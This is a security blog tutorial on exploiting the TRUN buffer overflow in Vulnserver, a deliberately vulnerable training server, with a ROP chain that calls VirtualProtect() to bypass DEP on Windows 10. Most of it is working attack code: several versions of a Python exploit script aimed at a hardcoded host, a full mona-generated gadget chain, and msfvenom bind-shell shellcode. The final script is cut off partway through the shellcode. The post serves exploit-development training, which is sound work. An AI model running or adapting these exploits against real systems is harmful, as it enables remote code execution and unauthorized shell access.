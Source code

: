 :slug: vulnserver-trun-rop/
:date: 2020-08-27
:category: attacks
:subtitle: Exploiting Vulnserver with ROP
:tags: osee, training, exploit
:image: cover.png
:alt: Photo by Syed Ali on Unsplash
:description: This post will show how to create a complete, functional exploit creating a complex shellcode using ROP
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/74JeU2jfnfk

= TRUN: Exploiting with ROP

In the last blog posts, we've been link:../understanding-dep/[dealing with DEP]
(Data Execution Protection) and a way to
link:../bypassing-dep/[bypass it with ROP] (Return-Oriented Programming).
If you haven't read those articles, I strongly recommend it before diving
into this one.

In this article, we will use `ROP` to create a fully working exploit for
the `TRUN` command of link:../tags/vulnserver/[Vulnserver] on a
DEP-enabled Windows 10 OS.

== ROP chains

In the link:../bypassing-dep/[last article], we used `ROP` to put the value
`0xdeadbeef` on `EAX`. To do that, we used 2 gadgets (sequence of
instructions ending with `RETN`) that performed the needed operations.
What we used is something known as a *ROP chain*, because we chained together
pointers to gadgets on the stack, that are tied together after each gadget
returns, giving control to the next in the stack.

`ROP` chains leverage existing instructions on the executable environment
to perform arbitrary actions. In fact, it was demonstrated that `ROP` is
Turing-complete, which means that we can solve any computational problem
using it, which ranges from making `EAX = 0xdeadbeef` to creating a
reverse TCP connection shellcode and beyond.

However, Turing-completeness does not imply code efficiency, and creating
a working shellcode using `ROP` could be a very frustrating and tedious work.

Fortunatly for us, we can reuse our old shellcodes. Yes, I mean it. But
on a DEP-enabled OS, that involves a little of extra effort!

== Marking shellcode as executable

When you use a CPU with the `NX` (No-execute) bit present, Windows provide
`DEP` as a mean to leverage it. `DEP` is enabled by the OS which means that
it can be disabled too.

The main idea is to use `ROP` to disable `DEP` on certain memory region, place
our good old shellcode there and redirect execution to that memory space.

There are many ways to do that, from creating a new heap into the
process with execution permission, allocating new memory on the default
heap with execution bit enabled or modifying existing memory to mark it as
executable.

The most portable methods are the last two. The first (allocating new memory)
is performed using the `VirtualAllow()` function. The second uses
`VirtualProtect()`.

What you may use depend on several things, mainly the version of Windows you
are attacking. Also, if one of those functions are already loaded on the
executable environment of the vulnerable application, it would be a good
indicator.

Let's load `vulnserver.exe` on a debugger to see if we can find one of those
functions:

image::virtualprotect1.gif[VirtualProtect()]

We were lucky. `VirtualProtect()` was found in the `IAT` (Import Address
Table) of our executable. We will use that method.

=== VirtualProtect() signature

According to Microsoft site, the `VirtualProtect()` signature is the following:

[source,cpp]
----
BOOL VirtualProtect(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
----

The parameters are the following:

. `lpAddress` is the starting address on where we will store the shellcode.
. `dwSize` is the size of the memory region we'll mark as executable, starting
at `lpAddress`.
. `flNewProtect` is the mask of bits defining the permissions that address
region would have (We'll use this to mark it as executable).
. `lpflOldProtect` is an address that will receive the current
permissions of the `lpAddress + dwSize` region.

Using `ROP` we need to put the values of that parameters on the stack.
We also need to setup the stack in a way that we can *return* into the
`VirtualProtect()` call and configure a return address that will be used
as the next `EIP` when `VirtualProtect()` returns. The following diagram
shows the expected stack layout just after executing our first `RETN`:

.Stack layout
[source,text]
----
Lower addresses
...
.-----------------.
|                 |
`-----------------'
        ESP
.-----------------.
|                 | <- Address to VirtualProtect()
`-----------------'
.-----------------.
|                 | <- Return address for VirtualProtect()
`-----------------'
.-----------------.
|                 | <- lpAddress
`-----------------'
.-----------------.
|                 | <- dwSize
`-----------------'
.-----------------.
|                 | <- flNewProtect
`-----------------'
.-----------------.
|                 | <- lpflOldProtect
`-----------------'
.-----------------.
|                 | <- Start of our shellcode
`-----------------'
...

Higher addresses
----

Let's see what would be the values to that parameters:

. Address to `VirtualProtect()`: This can be obtained using the debugger.
Ideally, we will use later the reference on the `IAT` to this function. For
now we found that `VirtualProtect()` is at `0x76070420`:

image::virtualprotect1.png[VirtualProtect()]

. Return address for `VirtualProtect()`: This should be a pointer to a
`JMP ESP` or `CALL ESP` instruction. This will redirect the execution flow to
our shellcode after enabling the execution flag on the stack. You can
obtain multiple options for this value using `!mona jmp -n -r esp`. I will
pick `0x625011AF`
. `lpAddress`: This should be the start address on where we expect to
store our shellcode. In our case, this should be the value of `ESP` and the
value can only be obtained at runtime. We'll get to that later.
. `dwSize`: Is the size of the address region that will be marked
as executable, starting at `lpAddress`. Something like `512` bytes (`0x200`)
would be enough.
. `flNewProtect`: Flags to be setup on the memory region. We need to mark
it as executable, readable and writable (`PAGE_EXECUTE_READWRITE`) whose
value is `0x40`
. `lpflOldProtect`: A pointer to a memory region that will receive the current
permissions of `lpAddress`. That means that this value should point to a place
we have write permissions. You can use the debugger to find the right place.
Ideally this should be an address to a module without `ASRL` or `Rebase`. In
this case I'll choose the one at `0x62504040`:

image::writable1.png[Writable]

Before ROP'ing that values, let's check if that call works. I will update
the exploit from the link:../bypassing-dep/[previous article] with that.
The goal of that exploit is to make `EAX = 0xdeadbeef`, bypassing `DEP`.
I will use placeholder values where needed, just to check how
`VirtualProtect()` works:

[source,python]
----
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/web/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999


PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # Pointer to `VirtualProtect()`: 0x6250609C -> 0x76070420
    struct.pack('<L', 0x76070420) +
    # Pointer to JMP ESP
    struct.pack('<L', 0x625011AF) +
    # lpAddress: Dynamic value. Will put a placeholder for now
    struct.pack('<L', 0x41414141) +
    # dwSize: 0x00000200. As we can't inject NULL bytes, we will place
    # 0x11111201 for now
    struct.pack('<L', 0x11111201) +
    # flNewProtect: 0x00000040: As we can't inject NULL bytes, we will place
    # 0x11111140 for now
    struct.pack('<L', 0x11111140) +
    # lpflOldProtect, Pointer to writable address: 0x62504040
    struct.pack('<L', 0x62504040) +
    # Shellcode. Will make EAX = 0xdeadbeef
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

I will now run the exploit in stages, to explain every step:

image::run1.gif[Stage 1]

Here, we can see that we effectively injected the parameters on the stack
and that our first `RETN` gave control to the call to `VirtualProtect()`.
However, there are some values that needs to be changed. Let's do that:

image::run2.gif[Stage 2]

In this part, I modified the `lpAddress` value with the current value of `ESP`,
then modified `dwSize` making it `0x00000200` or 512 bytes, and
`flNewProtect` was set to `0x40` (`PAGE_EXECUTE_READWRITE`). Now, let the
exploit continues with the modified values:

image::run3.gif[Stage 3]

Wonderful! The `VirtualProtect()` call effectively marked the region
where our shellcode was placed as executable and we could make
`EAX = 0xdeadbeef`. We bypassed `DEP` again!

However, that was not a valid execution because we had to use the debugger
to change some values.

We need to use `ROP` to setup that values. The easiest way is to put the
required values on general purpose registers and then push them to the
stack in the required order. To do that we can harness the `PUSHAD`
instruction that will save all the general purpose registers on the stack
in the following order:

* `EAX`, `ECX`, `EDX`, `EBX`, `ESP`, `EBP`, `ESI`, `EDI`.

That means that when `PUSHAD` is executed, the stack will have this content:

.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 |
	`-----------------'
	.-----------------.
ESI	|                 |
	`-----------------'
	.-----------------.
EBP	|                 |
	`-----------------'
	.-----------------.
ESP	|                 | <- This is the value of ESP *before* the call to PUSHAD
	`-----------------'
	.-----------------.
EBX	|                 |
	`-----------------'
	.-----------------.
EDX	|                 |
	`-----------------'
	.-----------------.
ECX	|                 |
	`-----------------'
	.-----------------.
EAX	|                 |
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

The most important value for us is the original `ESP` value because that
address is the one that must placed on `lpAddress` parameter. Using
`lpAddress` as the starting point, we need to place the other parameters
to the equivalent registers, as well as the pointer to `VirtualProtect()`
and the return address:


.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 |
	`-----------------'
	.-----------------.
ESI	|                 | <- Pointer to VirtualProtect()
	`-----------------'
	.-----------------.
EBP	|                 | <- Return address for VirtualProtect()
	`-----------------'
	.-----------------.
ESP	|                 | <- lpAddress
	`-----------------'
	.-----------------.
EBX	|                 | <- dwSize
	`-----------------'
	.-----------------.
EDX	|                 | <- flNewProtect
	`-----------------'
	.-----------------.
ECX	|                 | <- lpflOldProtect
	`-----------------'
	.-----------------.
EAX	|                 |
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

Great, all the parameters for `VirtualProtect()` can fit on those registers.

But something happens here. You may notice that the `EDI` register is not
used but when our first `RETN` is executed, it will land there. In that case,
we need to make `EDI` to point to a `RETN` instruction again. This will make
the execution return to where `ESI` pointer is placed, which is the
pointer to `VirtualProtect()`:

.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 | <- Pointer to RETN instruction
	`-----------------'
	.-----------------.
ESI	|                 | <- Pointer to VirtualProtect()
	`-----------------'
	.-----------------.
EBP	|                 | <- Return address for VirtualProtect()
	`-----------------'
	.-----------------.
ESP	|                 | <- lpAddress
	`-----------------'
	.-----------------.
EBX	|                 | <- dwSize
	`-----------------'
	.-----------------.
EDX	|                 | <- flNewProtect
	`-----------------'
	.-----------------.
ECX	|                 | <- lpflOldProtect
	`-----------------'
	.-----------------.
EAX	|                 |
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

You will also note that `EAX` is also not set and this is the place where
the shellcode is suppose to start. We can then use `NOP` instructions here
that will slide the execution to the shellcode:

.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 | <- Pointer to RETN instruction
	`-----------------'
	.-----------------.
ESI	|                 | <- Pointer to VirtualProtect()
	`-----------------'
	.-----------------.
EBP	|                 | <- Return address for VirtualProtect()
	`-----------------'
	.-----------------.
ESP	|                 | <- lpAddress
	`-----------------'
	.-----------------.
EBX	|                 | <- dwSize
	`-----------------'
	.-----------------.
EDX	|                 | <- flNewProtect
	`-----------------'
	.-----------------.
ECX	|                 | <- lpflOldProtect
	`-----------------'
	.-----------------.
EAX	|                 | <- \x90\x90\x90\x90
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

Perfect. We need to use `ROP` gadgets to setup those registers first and
then add a pointer to a `PUSHAD # RETN` gadget. Fortunately for us, `mona`
will do the hard work, by issuing the following command:

[source,bash]
----
!mona rop -m *.dll -n
----

This will go through all executable modules finding `ROP` gadgets that can be
useful. At the end, `mona` will generate several files with the result.
The most important one in this stage is `rop_chains.txt` file that contains
the chain of gadgets needed to setup the registers with the values in
the required order.

This is the resulting ROP gadget chain in my system:

[source,python]
----
  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
      0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
      0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ebp:---]
      0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x625011af,  # & jmp esp [essfunc.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x625011b4,  # POP EAX # RETN [essfunc.dll]
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
      0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edx:---]
      0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
      0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ecx:---]
      0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edi:---]
      0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_eax:---]
      0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

  rop_chain = create_rop_chain()
----

You can see that the registers are arranged exactly as we wanted.

We can incorporate that function in our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/web/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]
        #[---INFO:gadgets_to_set_ebx:---]
        0x625011b4,  # POP EAX # RETN [essfunc.dll]
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edx:---]
        0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    create_rop_chain() +
    # Shellcode. Will make EAX = 0xdeadbeef
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::run4.gif[ROP Chain]

Isn't it wonderful? We were able to setup the call to `VirtualProtect()` with
the required parameters using `ROP`.

Let's resume the execution to check if that worked:

image::run5.gif[ROP Chain]

Indeed! Again, we were able to make `EAX = 0xdeadbeef`. We can now replace
that mock shellcode with one of our good ol' ones from `msfvenom`:

[source,console]
----
$ msfvenom -p windows/shell_bind_tcp -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of python file: 1823 bytes
SHELL =  b""
SHELL += b"\xda\xd3\xbe\xaa\x69\x45\x3a\xd9\x74\x24\xf4\x5a"
SHELL += b"\x2b\xc9\xb1\x53\x31\x72\x17\x03\x72\x17\x83\x68"
SHELL += b"\x6d\xa7\xcf\x90\x86\xa5\x30\x68\x57\xca\xb9\x8d"
SHELL += b"\x66\xca\xde\xc6\xd9\xfa\x95\x8a\xd5\x71\xfb\x3e"
SHELL += b"\x6d\xf7\xd4\x31\xc6\xb2\x02\x7c\xd7\xef\x77\x1f"
SHELL += b"\x5b\xf2\xab\xff\x62\x3d\xbe\xfe\xa3\x20\x33\x52"
SHELL += b"\x7b\x2e\xe6\x42\x08\x7a\x3b\xe9\x42\x6a\x3b\x0e"
SHELL += b"\x12\x8d\x6a\x81\x28\xd4\xac\x20\xfc\x6c\xe5\x3a"
SHELL += b"\xe1\x49\xbf\xb1\xd1\x26\x3e\x13\x28\xc6\xed\x5a"
SHELL += b"\x84\x35\xef\x9b\x23\xa6\x9a\xd5\x57\x5b\x9d\x22"
SHELL += b"\x25\x87\x28\xb0\x8d\x4c\x8a\x1c\x2f\x80\x4d\xd7"
SHELL += b"\x23\x6d\x19\xbf\x27\x70\xce\xb4\x5c\xf9\xf1\x1a"
SHELL += b"\xd5\xb9\xd5\xbe\xbd\x1a\x77\xe7\x1b\xcc\x88\xf7"
SHELL += b"\xc3\xb1\x2c\x7c\xe9\xa6\x5c\xdf\x66\x0a\x6d\xdf"
SHELL += b"\x76\x04\xe6\xac\x44\x8b\x5c\x3a\xe5\x44\x7b\xbd"
SHELL += b"\x0a\x7f\x3b\x51\xf5\x80\x3c\x78\x32\xd4\x6c\x12"
SHELL += b"\x93\x55\xe7\xe2\x1c\x80\x92\xea\xbb\x7b\x81\x17"
SHELL += b"\x7b\x2c\x05\xb7\x14\x26\x8a\xe8\x05\x49\x40\x81"
SHELL += b"\xae\xb4\x6b\xbc\x72\x30\x8d\xd4\x9a\x14\x05\x40"
SHELL += b"\x59\x43\x9e\xf7\xa2\xa1\xb6\x9f\xeb\xa3\x01\xa0"
SHELL += b"\xeb\xe1\x25\x36\x60\xe6\xf1\x27\x77\x23\x52\x30"
SHELL += b"\xe0\xb9\x33\x73\x90\xbe\x19\xe3\x31\x2c\xc6\xf3"
SHELL += b"\x3c\x4d\x51\xa4\x69\xa3\xa8\x20\x84\x9a\x02\x56"
SHELL += b"\x55\x7a\x6c\xd2\x82\xbf\x73\xdb\x47\xfb\x57\xcb"
SHELL += b"\x91\x04\xdc\xbf\x4d\x53\x8a\x69\x28\x0d\x7c\xc3"
SHELL += b"\xe2\xe2\xd6\x83\x73\xc9\xe8\xd5\x7b\x04\x9f\x39"
SHELL += b"\xcd\xf1\xe6\x46\xe2\x95\xee\x3f\x1e\x06\x10\xea"
SHELL += b"\x9a\x36\x5b\xb6\x8b\xde\x02\x23\x8e\x82\xb4\x9e"
SHELL += b"\xcd\xba\x36\x2a\xae\x38\x26\x5f\xab\x05\xe0\x8c"
SHELL += b"\xc1\x16\x85\xb2\x76\x16\x8c"
----

And update our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/web/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999


def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]
        #[---INFO:gadgets_to_set_ebx:---]
        0x625011b4,  # POP EAX # RETN [essfunc.dll]
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edx:---]
        0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)


# msfvenom -p windows/shell_bind_tcp -f python -v SHELL -b '\x00'
SHELL =  b""
SHELL += b"\xbe\x9a\xd8\xa3\xeb\xd9\xc6\xd9\x74\x24\xf4\x5d"
SHELL += b"\x2b\xc9\xb1\x53\x31\x75\x12\x83\xc5\x04\x03\xef"
SHELL += b"\xd6\x41\x1e\xf3\x0f\x07\xe1\x0b\xd0\x68\x6b\xee"
SHELL += b"\xe1\xa8\x0f\x7b\x51\x19\x5b\x29\x5e\xd2\x09\xd9"
SHELL += b"\xd5\x96\x85\xee\x5e\x1c\xf0\xc1\x5f\x0d\xc0\x40"
SHELL += b"\xdc\x4c\x15\xa2\xdd\x9e\x68\xa3\x1a\xc2\x81\xf1"
SHELL += b"\xf3\x88\x34\xe5\x70\xc4\x84\x8e\xcb\xc8\x8c\x73"
SHELL += b"\x9b\xeb\xbd\x22\x97\xb5\x1d\xc5\x74\xce\x17\xdd"
SHELL += b"\x99\xeb\xee\x56\x69\x87\xf0\xbe\xa3\x68\x5e\xff"
SHELL += b"\x0b\x9b\x9e\x38\xab\x44\xd5\x30\xcf\xf9\xee\x87"
SHELL += b"\xad\x25\x7a\x13\x15\xad\xdc\xff\xa7\x62\xba\x74"
SHELL += b"\xab\xcf\xc8\xd2\xa8\xce\x1d\x69\xd4\x5b\xa0\xbd"
SHELL += b"\x5c\x1f\x87\x19\x04\xfb\xa6\x38\xe0\xaa\xd7\x5a"
SHELL += b"\x4b\x12\x72\x11\x66\x47\x0f\x78\xef\xa4\x22\x82"
SHELL += b"\xef\xa2\x35\xf1\xdd\x6d\xee\x9d\x6d\xe5\x28\x5a"
SHELL += b"\x91\xdc\x8d\xf4\x6c\xdf\xed\xdd\xaa\x8b\xbd\x75"
